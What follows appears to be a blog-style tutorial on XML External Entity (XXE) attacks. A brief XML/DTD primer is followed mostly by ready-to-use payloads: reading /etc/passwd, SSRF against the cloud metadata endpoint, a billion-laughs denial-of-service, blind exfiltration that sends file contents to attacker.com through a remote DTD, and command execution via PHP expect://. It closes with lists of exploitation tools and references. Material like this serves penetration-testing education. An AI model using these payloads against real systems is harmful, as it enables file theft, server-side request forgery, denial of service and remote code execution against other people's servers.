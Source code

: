 ```yaml
---
layout:     post
title:      XXE
subtitle:   
date:       2020-01-13
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - XXE
---
```


### XML & DTD quick intro

What is XML
- eXtensible Markup Language
- Structured syntax
- Designed to be human readable as well as machine readable

example:
```
<?xml version = "1.0" encoding = "utf-8"?>
<plane>
	<year> 1977 </year>
	<make> Cessna </make>
</plane>
```

DTD
- Document Type Definition
- Used for defining XML document structure
- Can also defined outside of the XML file(External)

```
<!DOCTYPE root-element [element-declarations]>
```
types of entities:
- Internal entity
```
<!ENTITY foo "bar">
```
This entity can be referred within the XML as &foo; and it will be replaced 
with the term "bar".

- External entity
```
<!ENTITY foo SYSTEM "file:///external.dtd">
```
We are mostly interested in the External entities.
- Parammeter
```
<!ENTITY % name "entity_value">
```
Used with % symbol

### Introduction to XXE
### Types of attacks

#### 1.Classic XXE

**example:**

```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE foo[<!ENTITY xxe "thisistest">]>
<userInfo>
	<firstName>John</firstName>
	<lastName>&xxe;</lastName>
</userInfo>

Output:
Hello John thisistest
```
This is not a vulnerability yet!

```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE foo[<!ENTITY xxe SYSTEM  "file:///etc/passwd">]>
<userInfo>
	<firstName>John</firstName>
	<lastName>&xxe;</lastName>
</userInfo>

Output:
Hello John root:x:0:0:root
...
....[SNIP]
```
Now it is.


#### 2.Server Side Request Forgery

**example:**

```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE foo[<!ENTITY xxe SYSTEM  "http://169.254.169.254">]>
<userInfo>
	<firstName>John</firstName>
	<lastName>&xxe;</lastName>
</userInfo>

Output:
Hello John 1.0
2007-01-09
2007-03-01
...
....[SNIP]
```

#### 3.Denial of Service

**example:**

```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE lolz[<!ENTITY log "log"><!ENTITY lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol4 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol5 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol6 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol7 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol8 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol9 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">]>
<tag>&lol9;</tag>
```
#### 4.Advanced XXE

**example:**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data[<!ENTITY % remote SYSTEM "http://attacker.com/call.dtd">%remote;]>
```

Parameter entities are special type of entities that can be used only withina DTD itself.
Tip:Use this payload to check for XXE vulnerabilities when user input is not reflected back on the page or in the response.

- Also know as Blind XXE
- Out of band data exfiltration
The payload to upload/send

```
<!DOCTYPE roottag[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://attacker.com/host.dtd">
%dtd;]>
<roottag>&send;</roottag>
```

Content of host.dtd

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/collect.php?file=%file;'>">
%all;
```

#### 5.Remote Code Execution
In some rare cases XXE can be elevated to execute system commands on the server
expect:// awesomeness!
expect:// is a PHP wrapper that can provide access to stdio, stdout and stderr.
In short, it can execute commands!
Sample payload :

```
<!DOCTYPE replace [<!ENTITY ent SYSTEM "expect://whoami"> ]>
```

<https://medium.com/@airman604/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7>
### Common places to find XXE
- XML file upload(e.g config files)
- XML input fields
- XML based APIs
- XML based files(RSS,SVG)
### uncommon places to find XXE
- MS Office files(docx,xlsx,etc.)
- SAML-based SSO
- VoiceXML in IVR systems
- Online Map editors using KML


### Tools

*  Xxeserv
A mini webserver with FTP support for XXE payloads

* oxml_xxe
A tool for embedding XXE/XML exploits into different filetypes

### Labs 
<https://github.com/jbarone/xxelab>

### Resource and References
<https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html>
<https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Preve
ntion_Cheat_Sheet.html>
<https://github.com/jbarone/xxelab>
<http://vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf>
